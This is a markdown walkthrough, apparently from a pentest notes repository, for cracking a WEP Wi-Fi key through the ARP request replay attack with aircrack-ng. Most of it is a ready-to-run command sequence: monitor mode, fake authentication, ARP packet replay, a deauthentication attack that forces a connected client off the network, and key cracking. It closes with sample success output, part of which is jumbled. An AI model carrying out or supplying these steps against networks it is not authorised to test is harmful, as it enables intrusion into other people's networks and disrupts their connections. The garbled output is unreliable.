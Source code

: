 # ARP Request Replay Attack (Attacking the AP/Connected) (WEP)

The classic ARP request replay attack is the most effective way to generate new initialization vectors (IVs), and works very reliably. The program listens for an ARP packet then retransmits it back to the access point. This, in turn, causes the access point to repeat the ARP packet with a new IV. The program retransmits the same ARP packet over and over. However, each ARP packet repeated by the access point has a new IVs. It is all these new IVs which allow you to determine the WEP key.

ARP is address resolution protocol: A TCP/IP protocol used to convert an IP address into a physical address, such as an Ethernet address. A host wishing to obtain a physical address broadcasts an ARP request onto the TCP/IP network. The host on the network that has the address in the request then replies with its physical hardware address.

## Commands

* Run [setup](../../setup.md) first
* Up to three terminals are needed
* At least one client must be associated with the AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $ADAPTER $CHANNEL

# Start monitoring to collect data
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE

# [Terminal Two]
# Run the fake authentication attack first
sudo aireplay-ng --fakeauth 0 -a $BSSID -e $SSID -h $INTERFACEMAC $INTERFACE

# Run the ARP replay attack
sudo aireplay-ng --arpreplay -b $BSSID -h $INTERFACEMAC $INTERFACE

# Watch for the data to rapidly increase in the aireplay-ng window
# To speed things up, do the next step - deauthentication attack

# [Terminal Three]
# Run the deauthentication attack (to help facilitate ARP packets for IVs)
sudo aireplay-ng --deauth 7 -a $BSSID -c $CLIENT $INTERFACE

# Get lots and lots of IVs (several minutes > 150K data ... mileage may vary though)
# Stop everything

# Crack the WEP keister (ensure that plenty of IVs are captured beforehand)
sudo aircrack-ng -0 $PCAP
```
* Look for the suscessful output - assuming enough IVs are available

```
1 potential targets                                 Got 156299 out of 155000 IVsStarting PTW attack with 156299 ivs.
                     KEY FOUND! [ AA:BB:CC:DD:EE:FF ] (ASCII: 12345 )
Attack wDecrypted correctly: 100%00 captured ivs.
```

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [ARP Request Replay](https://www.aircrack-ng.org/doku.php?id=arp-request_reinjection)
